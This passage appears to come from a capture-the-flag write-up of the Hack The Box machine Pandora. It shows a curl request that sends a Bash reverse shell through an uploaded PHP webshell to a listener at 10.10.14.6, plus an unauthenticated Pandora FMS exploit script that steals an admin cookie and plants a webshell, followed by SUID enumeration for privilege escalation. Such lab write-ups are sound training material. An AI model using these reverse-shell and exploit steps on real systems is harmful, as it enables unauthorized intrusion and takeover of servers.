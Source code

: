 To get a shell, I’ll just send it a Bash reverse shell:

```

oxdf@hacky$ curl 'http://pandora.panda.htb:9001/pandora_console/images/0xdf.php?cmd=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.6/443+0>%261"'

```

That hangs, but at `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.136 44650
bash: cannot set terminal process group (910): Inappropriate ioctl for device
bash: no job control in this shell
matt@pandora:/var/www/pandora/pandora_console/images$ 

```

#### Script

There’s a script from the SonarSource post authors that does all these steps for you [on GitHub](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated). Running it fetches the admin cookie, and then uploads a webshell, and runs commands through it:

```

oxdf@hacky$ python sqlpwn.py -t 127.0.0.1:9001
URL:  http://127.0.0.1:9001/pandora_console
[+] Sending Injection Payload
[+] Requesting Session
[+] Admin Session Cookie : 3hif5avdqp1hms9fl52krjmrtb
[+] Sending Payload 
[+] Respose : 200
[+] Pwned :)
[+] If you want manual Control : http://127.0.0.1:9001/pandora_console/images/pwn.php?test=
CMD > id
uid=1000(matt) gid=1000(matt) groups=1000(matt)

```

## Shell as root

### Enumeration

There’s nothing else of interest in matt’s home directory. In looking around, a common check is to look for SUID binaries:

```

matt@pandora:/$ find / -perm -4000 -ls 2>/dev/null
   264644    164 -rwsr-xr-x   1 root     root       166056 Jan 19  2021 /usr/bin/sudo
   265010     32 -rwsr-xr-x   1 root     root        31032 May 26  2021 /usr/bin/pkexec
   267386     84 -rwsr-xr-x   1 root     root        85064 Jul 14  2021 /usr/bin/chfn
   262764     44 -rwsr-xr-x   1 root     root        44784 Jul 14  2021 /usr/bin/newgrp
   267389     88 -rwsr-xr-x   1 root     root        88464 Jul 14  2021 /usr/bin/gpasswd
   264713     40 -rwsr-xr-x   1 root     root        39144 Jul 21  2020 /usr/bin/umount
   262929     20 -rwsr-x---   1 root     matt        16816 Dec  3 15:58 /usr/bin/pandora_backup
   267390     68 -rwsr-xr-x   1 root     root        68208 Jul 14  2021 /usr/bin/passwd
   264371     56 -rwsr-xr-x   1 root     root        55528 Jul 21  2020 /usr/bin/mount
   264643     68 -rwsr-xr-x   1 root     root        67816 Jul 21  2020 /usr/bin/su
   264040     56 -rwsr-sr-x   1 daemon   daemon      55560 Nov 12  2018 /usr/bin/at
   264219     40 -rwsr-xr-x   1 root     root        39144 Mar  7  2020 /usr/bin/fusermount
   267387     52 -rwsr-xr-x   1 root     root        53040 Jul 14  2021 /usr/bin/chsh
```